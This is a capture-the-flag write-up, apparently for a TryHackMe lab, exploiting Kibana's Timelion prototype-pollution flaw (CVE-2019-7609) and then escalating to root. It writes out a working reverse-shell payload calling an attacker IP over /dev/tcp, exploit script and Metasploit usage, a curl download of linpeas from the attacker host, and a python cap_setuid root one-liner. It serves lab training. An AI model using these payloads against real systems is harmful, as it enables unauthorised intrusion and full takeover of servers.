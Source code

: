 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![](./images/cf3a2e5dd2d551b8640a2d493f3ee36f.png)

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![](./images/e8a15745496651c4b5b275912f8c037d.png)

![](./images/c449e8ca809ba166e891781ff3d6294a.png)

What is Kibana ?
![](./images/f63b01787e995edea417abe07af45384.png)

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
- https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two manual ways to compromise the target. Besides, you can also use automated approach by using `Metasploit Framework`

- Manual exploitation on `Timelion` data visualiser script executor.
- Customized script execution.
- Metasploit Framework: `linux/http/kibana_timelion_prototype_pollution_rce` module.

### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![](./images/729ac78be8e9db4f7c4fed3c058becbc.png)


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![](./images/c01fde4a727b62e56d674dae6346ddbf.png)



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![](./images/d24a174170333ddd84070e2414595cc2.png)

![](./images/eaaad08b9760b6b943ea9af458e1c8cd.png)


Now it works ! After I restarted the machine, I was able to get my reverse shell !

![](./attachment/11df5f7c7c9ac5dfcab4d51099732301.png)


### Automated Exploitation

`Metasploit Framework` offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![](./images/c59ebbaa12eec0413d0a11bff25962e1.png)

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![](./images/c53a369d6204c98af36def3009c7b52d.png)

Modifying the `RHOSTS`, `TARGETURI` and `RPORT` is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![](./images/a20b149b5028537d238919c11e7979b7.png)

Since I forgot to give `LHOST` and `LPORT` option, I was not able to run the script appropriately. That's why, do not forget to `set` them.

As you can see below, the script was successfully run:

![[Screen Shot 2024-10-04 at 15.27.38.png]]

Initially, there will not be any output prompted from target ,so do not worry about it. Just check whether you correctly get reverse shell connection or not.

To achieve this just run `ls` command.


## Post-Exploitation

I have tried to run `linpeas.sh` on `tmp` folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through `/home/kiba`. Then it worked !

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download `linpeas.sh` from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to `linpeas.sh`
```
chmod +x linpeas.sh
```

4. Examine carefully  the `linpeas` output:

- I found really useful evidence to escalate our privileges

- The crontab shows that the user Kiba has a cron job scheduled to run every minute. This job navigates to the directory /home/kiba/kibana/bin and runs the bash kibana command.

![](./images/1.png)

![](./images/sudo.png)

We have a possible privilege escalation vector known as Sudo Privileges:

Since Kiba is in the sudo group, check what commands you can run with sudo -l.

It did not work in this scenario:

```
  whoami
  kiba
  sudo -l
  sudo: no tty present and no askpass program specified
```

Furthermore, we have a binary named /home/kiba/.hackmeplease/python3, which has the capability cap_setuid+ep, which means that this Python binary can change user IDs (setuid). This is a potential privilege escalation vector since it allows the Python process to execute with elevated privileges.

![](./images/2.PNG)

Let me pay attention on .hackmeplease :D

![](./images/3.PNG)


Since we have the python3 binary and its vulnerability. In binary exploitation, we trust GFTOBins to escalate privileges:

https://gtfobins.github.io/gtfobins/python/


- On GFTOBins, we have many binaries available to elevate our privileges. However, today, we should look for Python binary. After a deep dive attempt, I recognized that I was dealing with cap_setuid+ep capability. Therefore, using this payload to escalate my privileges will be suitable.


![alt text](./images/4.PNG)

- You can execute following command to be `root` on target.

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## Conclusion

All in all, this writeup demonstrates how different methodologies can be used at once. Through reconnaissance to post-exploitation, I provided 3 strong pathway you to understand the idea behind the scene. The detailed steps, ranging from mapping out unusual ports (Kibana) to `exploiting vulnerability` and `escalating privilege`, show the significance of understanding each phase deeply. It's crucial not only to follow the steps meticulously but also to apply knowledge practically and adapt to challenges as they arise. Always remember, careful planning and paying attention to small details, such as setting up the Metasploit console or configuring script parameters correctly, can save you a lot of trouble during the engagement.

May The Pentest Be With You ! !
